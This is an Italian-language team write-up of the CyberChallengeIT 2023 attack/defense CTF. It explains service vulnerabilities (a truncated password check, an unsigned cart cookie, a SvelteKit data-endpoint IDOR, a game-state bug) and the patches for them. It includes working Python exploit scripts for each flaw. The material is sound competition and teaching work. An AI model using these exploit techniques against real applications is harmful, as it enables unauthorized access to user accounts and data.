

# Gara Nazionale CyberChallengeIT 2023 (CTF A/D)

La gara nazionale di CyberChallengeIT svolta il 29/06/2023 al campus ILO di Torino ha visto la presenza di 4 servizi sviluppati che mettevano a disposizione 7 flag stores differenti (alcuni servizi avevano più di un flag store, al contrario di tutte le edizioni precedenti in cui si aveva un solo flag store per ogni servizio per un totale di soli 4 flag stores).

I servizi - che proponevano challenge relative alle categorie _web_, _crypto_ e _pwn_ - erano i seguenti:
* CheesyCheats (2 flag stores);
* Gabibbi Towers (2 flag stores);
* GadgetHorse (2 flag stores);
* MineCClicker (1 flag store).

Dei 7 flag stores presenti, il team è riuscito a costruire 4 exploit funzionanti e a patcharne altrettanti. Nello specifico sono stati exploitati e patchati i seguenti:
* GabibbiTowers-2;
* GadgetHorse-1;
* GadgetHorse-2;
* MineCClicker;

Inoltre, è molto importante notare che solo pochissime squadre sono riuscite ad attaccare i 3 flag stores mancanti.

Come possiamo infatti vedere dall'immagine:


al momento del freeze della classifica (-2 ore), solo 1 team (su 42) era riuscito ad attaccare CheesyCheats-1 e GabibbiTowers-1, mentre solo 6 teams erano riusciti ad attaccare CheesyCheats-2.

Al termine della gara questi risultati non sono variati di molto (4 attaccanti per CheesyCheats-1, 7 per CheesyCheats-2 e 6 per GabibbiTowers-1).

## GabibbiTowers
_Categoria: crypto_

Gabibbi Tower è una piattaforma di gioco con ricompense.
Il gioco proposto consiste in due torri composte da caselle blu o rosse.
In cima alle torri ci sono due gabibbi, rispettivamente uno per ogni torre. La piattaforma fornisce due pulsanti: "blu" e "rosso".
Cliccando sul pulsante blu (o rosso), i gabibbi posizionati su una casella blu (o rossa) passano alla casella sottostante. Il gioco è considerato vinto se il gabibbi finiscono contemporaneamente le caselle a disposizione.
Le funzionalità messe a disposizione dalla piattaforma sono: registrazione, login, creazione una configurazione di gioco, disputa di una partita.

### GabibbiTowers-1
Per poter accedere alla prima vulnerabilità bisogna vincere una partita al gioco fornito dalla piattaforma. La vittoria fornisce un ticket. Con tre ticket si può richiedere la flag (un ticket può essere utilizzato per generare altri ticket). A fine giornata, il team ha provato a far arrivare i gabibbi insieme alla fine delle torri tramite algoritmi iterativi o di backtracking ma la stanchezza ha avuto la meglio e non si è riusciti a trovare una soluzione allo stesso tempo veloce e sempre funzionante.


### GabibbiTowers-2

#### Vulnerabilità - Incorrect Password Check
Analizzando il modulo storage abbiamo notato che esso presenta una vulnerabilità nel controllo della password.
I caratteri confrontati con quelli della password dell'utente sono, infatti, i primi n caratteri della stessa (con n = len della password inserita).
Per rompere la funzione di login, quindi, sarebbe bastato inviare una password vuota.



#### Exploit
Quando è stato scritto l'exploit, tuttavia, si è pensato che una password vuota sarebbe stata l'attacco più ovvio (troppo facile da patchare).
Si è deciso, quindi, di provare ad indovinare il primo carattere della password, per non ricadere nel caso banale. Indovinare, in informatica, significa bruteforce:

```python
def get_flag(ip, port, hint):
	# PASSAGGI NECESSARI A PRELEVARE UNA FLAG
    sito = f'http://{ip}:{port}'
    user = hint['username']

    trovato = False

    i = 0
    alfabeto = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

    session = requests.Session()

    while not trovato and i < len(alfabeto):
        credentials = {
        "username" : user,
        "password" : alfabeto[i]
        }

        r = session.post(f'{sito}/login', json=credentials, timeout=2)
        time.sleep(0.1)
        prova = (r.json())
        if not prova.get('detail') and prova.get('info'):
            trovato = True
            flag = prova['info']

        i += 1

	# RESTITUISCI LA FLAG
    return flag or ""
```

#### Patch
La patch per questo servizio prevede che la comparazione non sia fatta sui primi n caratteri della stringa ma su tutta la stringa. Bisogna quindi sostituire strlen(pass) con strlen(user.password)


## GadgetHorse
_Categoria: web_

GadgetHorse è un'applicazione web, sviluppata col framework SvelteKit, che funge da e-commerce di sticker e magliette con stampe. 


Essa mette a disposizione alcune funzionalità come registrazione e login di utenti, acquisto di sticker predefiniti e creazione e acquisto di sticker e maglie personalizzate.

### GadgetHorse-1

#### Vulnerabilità - Unsigned Cookie

Questo primo flag store relativo a GadgetHorse, soffre di una vulnerabilità relativa al cookie del carrello. Lo stato del carrello veniva infatti memorizzato all'interno di un json, a sua volta salvato in un cookie che però non era firmato. Esso veniva solamente codificato in base64.


#### Exploit

L'exploit costruito consisteva quindi nel creare un cookie custom del carrello inserendo un particolare id e trovando la flag nel prodotto - relativo a questo id - inserito nel carrello. Di seguito vediamo l'exploit nel dettaglio.

Inizialmente, per generare un po' di rumore e provare a confondere i teams avversari è stata prevista la registrazione di un utente random:

```python
credentials = {
    "name" : generate_random_string(10),
    "password" : generate_random_string(10),
    "email" : generate_random_string(6) + '@email.com'
}

session = requests.Session()

r = session.post(f'{sito}/signup', data=credentials, timeout=1)
```

In seguito, preso un determinato flagId, si considerava il "productId" lì presente, memorizzandolo nella variabile prodotto:

```python
prodotto = hint['productId']
```

e si costruiva una lista, codificata in base64, relativa al carrello:

```python
cart = '[{"qty":1,"id":"' + prodotto + '"}]'
cartbase = base64.b64encode(cart.encode()).decode()
```

a questo punto bastava fare una richiesta all'endpoint "/cart" con i cookies relativi a carrello e sessione e si trovava la flag:

```python
cookies = {
    'cart' : cartbase,
}

re2 = session.get(f'{sito}/cart', cookies=cookies, timeout=1)

flag = re.findall("[A-Z0-9]{31}=", re2.text)[0]

# RESTITUISCI LA FLAG
return flag
```

#### Patch

Per fixare questa vulnerabilità la soluzione ideale sarebbe stata quella di firmare il cookie del carrello. Tuttavia, per questioni di semplicità e velocità, (necessarie in questo tipo di competizione), la patch adottata è stata molto più semplice ma comunque altamente efficace. 

La soluzione attuata infatti prevedeva di rinominare il nome del cookie da "cart" a "cartone". Essa, come detto, si è rilevata una patch altamente efficace in quanto ci ha portato a non perdere alcuna flag su questo servizio. Questo perché tutti gli exploit consistevano nel prelevare i dati dal cookie denominato "cart", che però noi non fornivamo. Ovviamente, questa soluzione non ha dato fastidio al gameserver che, simulando i comportamenti legittimi, non aveva necessità di andare a considerare il cookie.

```typescript
cookies.set('cartone', Buffer.from(JSON.stringify(cart)).toString('base64url'), {
    path: '/',
    secure: false,
    httpOnly: true,
    sameSite: 'strict',
    maxAge: 60 * 60
})
```


### GadgetHorse-2

#### Vulnerabilità - IDOR in SvelteKit endpoint

Per rendere più veloce il caricamento di alcuni dati, SvelteKit fornisce un endpoint aggiuntivo raggiungibile con *__data.json*. Questo però è un problema perché rende l'applicazione vulnerabile ad IDOR (Insecure Direct Object References). Infatti, ciò fa in modo che l'applicazione utilizzi l'input fornito dall'utente per accedere direttamente agli oggetti.

#### Exploit

Sfruttando la vulnerabilità descritta è quindi stato possibile costruire l'exploit. Infatti, accedendo all'endpoint *"/order/\<productId\>/__data.json"*, veniva restituito un oggetto json che conteneva alcune informazioni, tra cui anche un indirizzo. All'interno di questo indirizzo c'era appunto la flag.

Per quanto riguarda i dettagli dell'exploit, possiamo notare che, anche qui, per generare disturbi agli altri teams è stata fatta la registrazione di un utente casuale:

```python
credentials = {
    "name" : generate_random_string(10),
    "password" : generate_random_string(10),
    "email" : generate_random_string(6) + '@email.com'
}

session = requests.Session()

r = session.post(f'{sito}/signup', data=credentials, timeout=1)
```

In seguito, è stata fatta la richiesta all'endpoint summenzionato, inserendo come productId, quello estrapolato dal flagId corrente. Inoltre, per generare altro "rumore", è stato utilizzato anche un cookie non necessario contenente il carrello *[{"qty":1,"id":"cyberchallenge"}]*.

```python
cookies = {
    'cart' : 'W3sicXR5IjoxLCJpZCI6ImN5YmVyY2hhbGxlbmdlIn1d',
}

re2 = session.get(f'{sito}/order/{prodotto}/__data.json', cookies=cookies, timeout=1)

flag = re.findall("[A-Z0-9]{31}=", re2.text)[0]

# RESTITUISCI LA FLAG
return flag
```

#### Patch

Per fixare questa vulnerabilità, l'idea è stata quella di andare a rimuovere la possibilità di utilizzare l'endpoint relativo a *__data.json*. Per fare ciò è bastato aggiungere nella cartella _src_ un file denominato _hooks.server.js_ con il seguente contenuto:

```javascript
// src/hooks.server.js

/** @type {import('@sveltejs/kit').[Handle](https://kit.svelte.dev/docs/types#public-types-handle)} */
export async function handle({ event, resolve }) {
    // true when the request is for a `__data.json` endpoint
    // https://kit.svelte.dev/docs/types#public-types-requestevent
    if (event.isDataRequest) {
        return new Response(null, { status: 400 });
    }

    const response = await resolve(event);
    return response;
}
```

Ciò è servito per restituire risposte con codice 400 (Bad Request) ad ogni richiesta di tipo "data", cioè ogni richiesta verso questo endpoint.


## MineCClicker
_Categoria: pwn_

MineCClicker è una challenge della categoria pwn. E' una versione di prato fiorito. Viene fornito tramite un binario in C che rappresenta i server e un client scritto in Python. Il  servizio permetteva di fare le seguenti operazioni:

- Registrarsi e fare il login.
- Creare un boardgame: Nome, Secret(In questo campo sono messe le flag per i giochi forniti dal game server), seed, grandezza, numero di bombe
- Caricare una board
- Giocare alla board caricata.


Ogni volta che un utente gioca una partita, le bombe vengono posizionate all'interno del tabellone in mod casuale, utilizzando due numeri come seme:
- Il seme scelto dal creatore della board.
- Un nuovo numero casuale fornito al giocatore.


I creatori del tabellone conoscono entrambi i semi, quindi possono rigenerare la disposizione casuale delle bombe e vincere sempre.


Durante una partita, quando un utente trova la disposizione corretta delle bombe, vince la partita e ottiene il segreto.

Le flag sono memorizzate nel campo segreto di alcune board specifiche, create dal verificatore.

#### Vulnerabilità - Giocare per sempre
Quando un utente scopre una cella e trova una bomba, il gioco dovrebbe terminare, ma il server non reimposta correttamente la variabile globale g_is_playing a false.

#### Exploit

L'exploit sfruttato da molte altre squadre della cyberchallenge è il seguente:
- Scoprire celle casuali fino a trovare una bomba
- Leggere la disposizione delle bombe
- Inviare l'intera disposizione delle bombe al server e vincere la partita.

La squadra ha però notato che non c'era bisogno di trovare per forza una bomba per poter ricevere la board con la posizione delle bombe, ma bastava fare una singola richiesta al server su una casella scelta a caso per ricevere tutte le posizione delle bombe, così da non dover perdere, giocando in maniera lecita al gioco per poi ricevere le bombe. L'exploit illustrato nella figura viene spiegato in dettaglio commentando le linee di codice:

```python
def get_flag(ip, port, hint):
	boardname = hint["boardname"]
	c=Client(ip,port)
	username=generate_random_string(10)
	password=generate_random_string(10)
	c.signup(username,password)
	c.login(username,password)
	c.load_board(boardname)

	res,msg=c.play()
	game_seed, board_dim, num_bombs = msg
	flags_left = num_bombs
	cell,msg=c.uncover(1,1)
	board=msg[1]
	for row in range(board_dim):
		for col in range(board_dim):
			if board[row][col] == Marker.BOMB:
				board[row][col] = Marker.FLAG
	flag=c.check_win(board)
	return flag
```

La prima riga serve a prelevare il nome della board:

```python
boardname = hint["boardname"]
```

La seconda riga, utilizzando le funzioni di utilità fornite dal client, inizializza una connessione con il server della macchina fornita in input:

```python
c = Client(ip,port)
```

La terza riga genera uno username casuale lungo 10 caratteri:

```python
username=generate_random_string(10)
```

La quarta riga genera una password casuale lungo 10 caratteri:


```

La riga cinque fa la registrazione dell'utente al server:

```python
c.signup(username,password)
```

La riga sei fa il login alla piattraforma:

```python
c.login(username,password)
```

La riga 7 carica la board:

```python
c.load_board(boardname)
```

La riga 8,9 e 10 servono ad avviare il gioco con la board:

```python
res,msg=c.play()
game_seed, board_dim, num_bombs = msg
flags_left = num_bombs
```

Le restanti righe fanno la seguente operazione. Inviano una richiesta di uncover di una cella scelta a caso, questa restituiscela la board con la posizione delle bombe. Il for prende la board e dove ci sono le bombe mette le bandierine del prato fiorito, fatto ciò invia la board modificata al server che ovviamente considererà la board come vincente e restituirà la flag.

```python
cell,msg=c.uncover(1,1)
board=msg[1]
for row in range(board_dim):
    for col in range(board_dim):
        if board[row][col] == Marker.BOMB:
            board[row][col] = Marker.FLAG
flag=c.check_win(board)
return flag
```

Come si può facilmente evincere non c'è bisogno di perdere per poter ottenere la flag, ma basta seguire il procedimento descritto. Infatti questo attacco nonostante le patch degli avversari continuava a prendere le flag.

Per avviare l'exploit c'è bisogno di tutta la cartella client dato che utilizza le classi di utilità fornite per il client Python.

#### Patch

Modificare il binario per reimpostare correttamente la variabile globale g_is_playing su false all'interno della funzione uncover, nel caso in cui si becca una.


## CheesyCheats
_Categorie: web/crypto/misc_

CheesyCheat è un’applicazione che si configura come shop di trucchi per videogiochi. Tramite un client messo a disposizione dal sistema di gioco è possibile vedere e comprare trucchi.
Inoltre, una parte dell’applicazione espone una VM che esegue codice nel linguaggio esoterico “Brain Fuck”.
La tecnologia alla base dell’applicazione è il framework gRPC: un framework di chiamate di procedura remota ad alte prestazioni open source multipiattaforma creato da Google.
La struttura dell’applicazione è divisa in tre sezioni principali: Client, API e Manager.
Il client può registrarsi all’applicazione, fare il login e vendere/comprare cheats.
Il Manager si occupa di gestire il login e la compravendita (a livello di db) dei cheats.
La sezione API, come da prassi, tutte le funzioni per far funzionare correttamente l’applicazione.


**Nell’analisi di questa challenge è bene specificare che, a causa dell’utilizzo del framework gRPC, i pcap non sono decifrabili in maniera tradizionale. Ricostruire un attacco è pressocché infattibile allo stato dell’arte.**
